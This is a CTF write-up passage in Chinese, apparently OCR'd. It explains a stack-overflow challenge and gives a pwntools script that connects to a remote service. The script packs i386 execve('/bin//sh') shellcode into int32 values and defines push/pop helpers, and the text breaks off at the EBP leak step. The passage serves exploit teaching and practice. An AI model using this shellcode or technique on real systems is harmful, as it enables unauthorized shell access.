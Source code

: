 要注意的是它 stack 上面會存有一個 address  
是 exit 時拿來計算 esp 用的  
因此這個 address 要小心不要被修改到  
還有就是因為這題在蓋的時候是用 integer 在蓋  
因此 payload 都要轉成 integer 的形式 (注意要是 int32 )  

```python
#!/usr/bin/env python

from pwn import *
import sys
import time
import numpy

HOST = "52.69.163.194"
PORT = 3333
ELF_PATH = ""
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

r = remote(HOST, PORT)
#r = process("./pwn3")

shellcode_byte = [ 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0xb0, 0x0b, 0x31, 0xc9, 0x31, 0xd2, 0xcd, 0x80 ]

# constructing shellcode data
shellcode = [0x90] * 9
for c in shellcode_byte:
	shellcode.append(c)

payload = []
cur = 0
for index, val in enumerate(shellcode):
	now = index % 4
	cur |= val << (now*8)
	if now == 3:
		payload.append(numpy.int32(cur))	
		cur = 0

def pop(r):
	r.sendline("2")
	r.recvuntil("Top item is: ")
	item = r.recvuntil("\n").strip()
	n = numpy.int32(int(item, 16))
	return n

def push(r, num):
	r.sendline("1")
	r.recvuntil("number:\n")
	r.sendline(str(num))

if __name__ == "__main__":

	temp = []

	# leaking ebp
```